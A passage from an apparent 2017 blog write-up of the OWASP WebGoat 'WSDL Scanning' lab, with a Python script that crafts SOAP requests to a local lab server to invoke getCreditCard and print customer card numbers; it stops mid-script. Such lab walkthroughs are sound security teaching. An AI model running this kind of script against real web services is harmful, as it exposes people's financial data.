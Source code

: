 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Web Services"
subtitle: "WSDL Scanning / Web Service SAX Injection / SQL Injection"
date:   2017-02-02 11:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# WSDL Scanning
Instructions:

- This screen is the API for a web service. Check the WSDL file for this web service and try to get some customer credit numbers. 

Alright, so we can make some slight modifications to the script we used for SOAP interaction for the last challenge and use it to send a request for the ```getCreditCard``` method. Now our request for the method is created dynamically per-method so we don't have to make a bunch of script methods for the different SOAP methods, whose requests are largely identical.

{% highlight python %}
import sys
import requests
import lxml.etree as etree

def send_soap(method, user_id):
	soap_url = "http://192.168.56.101/WebGoat/services/SoapRequest?WSDL"
	headers={
		'content-type': 'application/soap+xml',
		"SOAPAction":""
	}
	cookies = dict(
		JSESSIONID="D49B1C7B6EE2243929D320213C6A9C1B",
		acopendivids="swingset,jotto,phpbb2,redmine",
		acgroupswithpersist="nada"
	)
	body = get_soap_request(method, user_id)
	r = requests.post(soap_url, data=body, headers=headers, cookies=cookies)
	result_tag_name = "{}Return".format(method)
	for result in etree.fromstring(r.content).iter(result_tag_name):
		print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
		print ("SOAP Protocol Interaction:")
		print ("Request: {}({}) | Response: {}".format(method, user_id, result.text))
		print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")

def get_soap_request(method, user_id):
	request_body = """<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
	<SOAP-ENV:Envelope
	SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<SOAP-ENV:Body>
		<m:{} xmlns:m="urn:SoapRequest">
			<id xsi:type="xsd:int">{}</id>
		</m:{}>
	</SOAP-ENV:Body>
	</SOAP-ENV:Envelope>
	""".format(method, user_id, method)
	
	return request_body

def main():